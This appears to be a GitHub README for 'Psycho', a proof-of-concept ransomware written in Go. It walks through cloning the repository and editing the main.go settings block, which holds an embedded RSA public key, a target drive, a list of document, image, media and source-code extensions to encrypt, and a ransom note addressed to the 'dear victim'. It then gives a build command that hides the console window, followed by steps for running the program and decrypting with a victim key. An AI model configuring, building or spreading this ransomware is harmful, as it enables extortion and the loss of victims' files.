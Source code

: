 # Psycho
Psycho PoC ransomware
![alt text](https://github.com/Null-byte-00/images/blob/master/Free_Sample_By_Wix.jpg?raw=true)<br>
psycho is a PoC ransomware written in go<br><br>
tested on windows 10
## possibilities:
<ul>
<li>using hybrid encryption (witch is fast and safe)</li>
<li>customize settings</li>
<li>good appearance</li>
<li>changing background picture</li>
</ul>

## requirements:
<ul>
<li>gcc (added to Path)</li>
<li>golang (you can download from here: https://golang.org/dl/)</li>
<li>fyne (golang library: http://www.fyne.io/fyne)</li>
</ul>

## to use:

### clone the repository

```
git clone https://github.com/Null-byte-00/Psycho
```

### change settings

go to Psycho/psycho/main.go and change the settings:

```golang
	/*** SETTINGS ***/
	//server rsa public key ( if you want to change this you should first generate a rsa keypair next replace it in both ransomware and decryptor programs )
	serverpubkey := "-----BEGIN PUBLIC KEY-----\nMIIBojANBgkqhkiG9w0BAQEFAAOCAY8AMIIBigKCAYEA3eWrYNmEzwLXGT0HUqqu\nkrimoiBKZE9mIzWvN51YLONneY0B8/yiLgJxg5pUOp8AEnu3gQm9uPQzbdyZniQq\n58HzSS+2Py17/UWlwqZVueUQ/RBvhH/BaEDZlKK7SUzeUqWbC0klDeLQ1nY48DEJ\nD2wNkz3CWXgDqQ0tfOqy+hRrR6ispOZc7k2SDd6cX8jkKzacH7sxBDYDVT2E/nYP\nkOBcCUW2ywN/y0FE1uqxim+axwtFW652k5ARHalmOVIXM6Oky6r4x49MN8zkIZEC\nhGDIOxQGYUEtp+0NhmAMyl26DtI23NMjyTaB7+DYtEZzSYgBllmfla1RtoEgKaHI\ns30PIUvZQGmg6VcEEhfy0hbtjDjWANkBrNewK46mH9pwH2wsYmm9QSftUjF62PbM\nLrFxoJS1w6NeYTC+s5JqGnG3sftCzGXMI+VSRvoVAWU+mm/ntQj5yww4nRq4Ylre\nJZAsLRUfT87c5uomolGitlGPIyXjxhxgPzc5egvQ199BAgMBAAE=\n-----END PUBLIC KEY-----"
	//root directory ( only files in this directory and subfolders of this directory will be encrypted )
	rootdir := "H:\\"
	//valid file extensions to encrypt ( only files with these extensions will be encrypted )
	validfileextensions := []string{"lnk" ,"pdf", "doc", "docx", "docm", "xlsx", "xlsm", "jpg", "jpeg", "png", "mp3", "mp4", "mkv", "py", "cs", "c", "cpp"}
	//valid file size to encrypt ( only files that have the same or less weight than this will be encrypted )
	//here is 400MB --> 1024 * 1024 * 400 = 419430400
	validfilesize := 419430400
	//the massage you want to show to the victim
	message := "Hi dear victim!\n"
	message += "Some of your files are encrypted now\n"
	message += "do not waste your time there is no way \nto get your files back except our decryption service"
```

### create binary file

just go to Psycho/psycho directory and run: <br>

```
go build -ldflags -H=windowsgui main
```

-ldflags -H=windowsgui options will hide the console window

### run the file

just click on main.exe file<br>
after some seconds desktop ppicture will change and a window like this will appear<br>

![alt text](https://github.com/Null-byte-00/images/blob/master/psychodemo.png?raw=true)<br>


and you can see that some of your files are encrypted<br>

![alt text](https://github.com/Null-byte-00/images/blob/master/psychoencrypteddemo.png?raw=true)<br>

### decrypting files

to decrypt files click on Get victimkey button. you will see a notepad window. <br>

![alt text](https://github.com/Null-byte-00/images/blob/master/psychovictimkeydemo.png?raw=true)<br>

copy this text and go to Psycho/psychodecryptor and run:<br>

```
go run decryptor.go <victim key here>
```

decryptor will give you a 32 character text like this:<br>
```
k8T2fDFkKbdBwdlnbVgxJTucm0oNBdwa
```
now enter this text in Password textbox and click on Check password button. psycho will start to decrypt your files (it can take a while)<br>
![alt text](https://github.com/Null-byte-00/images/blob/master/psychodecryptdemo.png?raw=true)<br>

Now you got your files back<br>

and you can also see tutorial video here:<br>

[![IMAGE](https://img.youtube.com/vi/a8yX7jojYBo/0.jpg)](https://www.youtube.com/watch?v=a8yX7jojYBo)

Have fun!


